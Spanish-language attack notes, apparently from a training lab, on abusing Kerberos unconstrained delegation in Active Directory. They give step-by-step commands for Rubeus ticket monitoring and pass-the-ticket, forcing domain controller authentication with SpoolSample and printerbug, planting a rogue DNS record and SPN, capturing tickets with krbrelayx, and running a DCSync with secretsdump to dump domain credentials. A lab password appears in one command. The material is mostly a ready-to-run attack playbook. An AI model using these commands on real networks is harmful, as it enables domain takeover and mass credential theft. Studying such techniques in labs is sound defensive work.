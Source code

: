 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continuamos con el ataque anterior.

Si el ticket es del DC, una vez importado, lo renovamos y con mimikatz podemos realizar un DCSync ;)



# Sobre los usuarios

En el caso de los usuarios, necesitaremos tener control del user y permisos de **GenericWrite**, **WriteSPN** o **WriteProperty** sobre el atributo **ServicePrincipalName**.

El ataque consiste en crear un servicio a nombre del usuario con Unconstrained Delegations para que este herede dichos privilegios, de esta manera, los usuarios o computadoras que  se conecnten a este servicio entregarán su ticket.

### 1) Creamos un DNS Falso

En la máquina atacante creamos un DNS falso:

    python dnstool.py -u dominio\\usuario -p contraseña -r roguecomputer.inlanefreight.local -d 10.10.14.2 --action add 10.129.1.207
### Agregamos un SPN falso al usuario vulnerable para que comparta un servicio en el DNS falso

De esta manera el servicio heredará sus privilegios de delegación

    python addspn.py -u dominio\\usuario -p contraseña --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local

### 3) Ponemos a capturar los tickets

    python krbrelayx.py -s callum.dixon -p C@lluMDIXON

### 4) Forzamos al DC o a otro user a autenticarse contra el DNS falso

    python3 printerbug.py dominio/usuario:contraseña@IP_DC roguecomputer.inlanefreight.local
### 5) Con el ticket del DC hacemos DCSync

    export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
    secretsdump.py -k -no-pass dominio/DC01$
